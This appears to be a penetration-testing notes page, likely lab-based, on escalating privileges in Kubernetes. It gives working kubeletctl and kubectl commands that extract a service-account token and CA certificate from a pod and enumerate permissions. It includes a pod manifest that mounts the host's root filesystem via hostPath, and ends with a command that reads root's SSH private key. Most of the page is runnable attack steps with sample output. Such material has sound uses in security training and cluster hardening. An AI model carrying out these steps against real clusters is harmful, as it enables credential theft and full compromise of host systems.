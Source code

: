 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Kubernetes

Kubernetes, also known as K8s, is a container orchestration system, which functions by running all applications in containers isolated from the host system through multiple layers of protection. This approach ensures that applications are not affected by changes in the host system, such as updates or security patches. The K8s architecture comprises a **master node** and **worker nodes**, each with specific roles.

Kubernetes architecture is primarily divided into two types of components:

* `The Control Plane` (master node), which is responsible for controlling the Kubernetes cluster
* `The Worker Nodes` (minions), where the containerised applications are run

### Privilege Escalation

To gain higher privileges and access the host system, we can utilise a tool called [kubeletctl.md](../../../../toolbox/tooling/exploitation-tools/service-exploitation-tools/kubeletctl.md "mention") to obtain the Kubernetes service account's `token` and `certificate` (`ca.crt`) from the server.

To do this, we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.

### Kubelet API - Extracting Tokens

{% code title="Command" overflow="wrap" %}
```bash
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```
{% endcode %}

{% code title="Example Output" %}
```bash
eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
```
{% endcode %}

### Kubelet API - Extracting Certificates

{% code title="Command" overflow="wrap" %}
```bash
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```
{% endcode %}

{% code title="Example Output" %}
```bash
-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
<SNIP>
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
```
{% endcode %}

Now that we have both the `token` and `certificate`, we can check the access rights in the Kubernetes cluster. This is commonly used for auditing and verification to guarantee that users have the correct level of access and are not given more privileges than they need. However, we can use it for our purposes and we can inquire of K8s whether we have permission to perform different actions on various resources.

### List Privileges

{% code title="Command" %}
```bash
export token=`cat k8.token`
```
{% endcode %}

{% code title="Command" overflow="wrap" %}
```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```
{% endcode %}

{% code title="Example Output" %}
```bash
Resources					Non-Resource URLs    Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io	[]                   []			[create]
selfsubjectrulesreviews.authorization.k8s.io	[]                   []			[create]
pods						[]                   []			[get create list]
...SNIP...
```
{% endcode %}

Here we can see a few very important information. Besides the selfsubject-resources we can `get`, `create`, and `list` pods which are the resources representing the running container in the cluster. From here on, we can create a `YAML` file that we can use to create a new container and mount the entire root filesystem from the host system into this container's `/root` directory. From there on, we could access the host systems files and directories. The `YAML` file could look like following:

### Pod YAML

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Once created, we can now create the new pod and check if it is running as expected.

### **Creating a new Pod**

{% code title="Command" overflow="wrap" %}
```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
```
{% endcode %}

{% code title="Example Output" %}
```bash
pod/privesc created
```
{% endcode %}

{% code title="Command" overflow="wrap" %}
```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
```
{% endcode %}

{% code title="Example Output" %}
```bash
NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0	23m
privesc	1/1		Running	0	12s
```
{% endcode %}

If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.

### **Extracting Root's SSH Key**

{% code title="Command" %}
```bash
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
{% endcode %}
